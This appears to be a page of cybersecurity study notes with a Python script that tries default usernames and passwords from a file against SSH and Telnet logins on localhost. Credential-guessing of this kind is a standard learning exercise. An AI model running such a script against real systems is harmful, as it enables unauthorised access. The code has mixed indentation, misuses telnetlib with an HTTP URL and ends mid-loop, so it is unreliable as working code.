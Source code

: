 ### telnetlib

[telnetlib - Telnet client - Python 3.10.5 documentation](https://docs.python.org/3/library/telnetlib.html)

### Default Accounts Using paramiko, telnetlib

[defaults.txt](Python%20For%20Cybersecurity%20eb6905ebe9ef4a52a99d8d69de193b6a/defaults.txt)

```python
import paramiko
import telnetlib

# we also have to keep in mind that maybe the ssh is not running on the common port
def SSHLogin(host,port,username,password):
    try:
				# using paramiko ssh client to establish a connection 
        ssh = paramiko.SSHClient()
				# as we are scanning the host we dont have the keys so we are already defining as missing using paramiko policy
        ssh.set_missing_host_key_policy(paramiko.AutoAddPolicy())
				# establishing a connection 
        ssh.connect(host,port=port,username=username,password=password);
        # trying to open a session
				ssh_session = ssh.get_transport().open_session()
				# checking for a active session to check if the credentials were correct or not
        if ssh_session.active:
            print("Login successful on %s:%s with username %s and password %s" % (host,port,username,password))
    except:
            print("Login failed %s %s" % (username,password))
    ssh.close()
 
def TelnetLogin(host,port,username,password):
		# we defined the user n password as bytes
		user = bytes(username + "\n","utf-8")
		passwd = bytes(password + "\n","utf-8")
    h = "http://"+host+":"+port+"/"
    # telnetlib sets up the telnet connection
		tn = telnetlib.Telnet(h)
		# .read_until works only if the prompt name is not changed
		# The .read_until keeps on reading the data till it find the element it is searching for in the stream of data.
    tn.read_until(bytes("login: ","utf-8"))
		# The .write write data into the prompt we got using the .read_until
    tn.write(user)
    tn.read_until(bytes("password: ","utf-8"))
    tn.write(passwd)
    try: 
				# expect performs read_until for a list of elements
				# if we get the last login then we can confirm that we have successfully logged in the telnet server
        result = tn.expect([bytes("Last login: ","utf-8")], timeout = 2)
        if (result[0] > 0):
            print("Telnet login successful on %s:%s with username %s and password %s" % (host,port,username,password))
        tn.close()
    except EOFError:
        print("Login failed %s %s" % (username,password))

host = "127.0.0.1"
port = 2200
with open("defaults.txt","r") as f:
    for line in f:
```